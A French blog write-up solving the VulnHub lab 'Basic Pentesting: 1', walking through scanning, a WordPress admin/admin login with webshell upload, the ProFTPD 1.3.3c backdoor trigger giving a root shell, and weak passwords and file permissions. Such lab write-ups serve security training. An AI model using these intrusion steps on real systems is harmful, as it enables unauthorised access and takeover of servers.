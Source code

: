 # Solution du CTF Basic Pentesting: 1 de VulnHub

Ici on attaque un CTF nommé [Basic Pentesting](https://www.vulnhub.com/entry/basic-pentesting-1,216/) qui porte bien son nom. Par conséquent je ne passerais que rapidement sur l'exploitation de ce CTF.  

Au menu
-------

```plain
Nmap scan report for 192.168.1.48
Host is up (0.00065s latency).
Not shown: 65499 closed ports, 33 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|_  256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:14:06:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.0
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

La page d'index est celle par défaut d'Apache (*It works!*) mais le module buster de *Wapiti* nous laisse une piste supplémentaire :  

```plain
[*] Launching module buster
Found webpage http://192.168.1.48/secret
```

Il s'agit d'un blog Wordpress en version 4.9.2 (d'après la balise meta generator du code HTML)  

On remarque vite que les liens du site font référence à un hostname appelé *vtcsec* du coup on rajoute une entrée dans notre */etc/hosts*.  

#OPSecFAIL
----------

On lance un *WPScan* dessus qui trouve essentiellement que le listing est activé sur le dossier */wp-includes/* et que l'utilisateur admin est présent.  

Le dossier wp-includes n'a rien qui saute au yeux... Mais quand on essaye de se connecter sur */wp-admin* avec admin/admin... ça passe.  

A partir de là chacun à sa technique, moi j'aime bien installer le plugin [wp-file-manager](https://wordpress.org/plugins/wp-file-manager/) qui permet de gérer les fichiers (on ne voit que ceux sous la racine wordpress mais on peut uploader une backdoor).  

Bien sûr on tourne avec les droits *uid=33(www-data) gid=33(www-data) groups=33(www-data)*.  

On trouve facilement un utilisateur *marlinspike* sur le système (membre du groupe *sudo*) dont le dossier personnel est visitable.  

On trouve notamment une archive décompressée nommée *backdoored\_proftpd-1.3.3c* faisant référence [à une backdoor bien connue](https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor).  

L'obtention des droits root est facile :  

```plain
$ telnet vtcsec 21
Trying 192.168.1.48...
Connected to vtcsec.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (vtcsec) [192.168.1.48]
HELP ACIDBITCHEZ
id;
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

#YOLOsecurity
-------------

Le synopsis nous invite à chercher d'autres façons d'obtenir les droits root.  

Une possibilité est d'utiliser le mot de passe *marlinspike* pour le compte du même nom :  

```plain
$ ssh marlinspike@vtcsec
marlinspike@vtcsec's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.10.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

19 packages can be updated.
19 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

marlinspike@vtcsec:~$ sudo -l
[sudo] password for marlinspike:
Matching Defaults entries for marlinspike on vtcsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marlinspike may run the following commands on vtcsec:
    (ALL : ALL) ALL
```

Au passage ça m'a fait remarquer que [Ncrack](https://nmap.org/ncrack/) ne dispose pas d'option pour tester automatiquement l'absence de mot de passe ou un mot de passe équivalent au login alors que [cette bonne vieille Hydre](https://www.thc.org/thc-hydra/) peut le faire.  

On rajoutera à ça la présence de permissions hasardeuses :  

```plain
-rw-rw-rw-  1 root root    2364 Nov 16 13:02 passwd
-rw-r--r--  1 root shadow  1305 Nov 16 13:02 shadow
```

Conclusions
-----------

Simple et rapide. Une situation plus réaliste aurait été la présence d'une page avec une injection SQL permettant de retrouver le hash de l'admin Wordpress pour le casser...

*Published February 05 2018 at 12:09*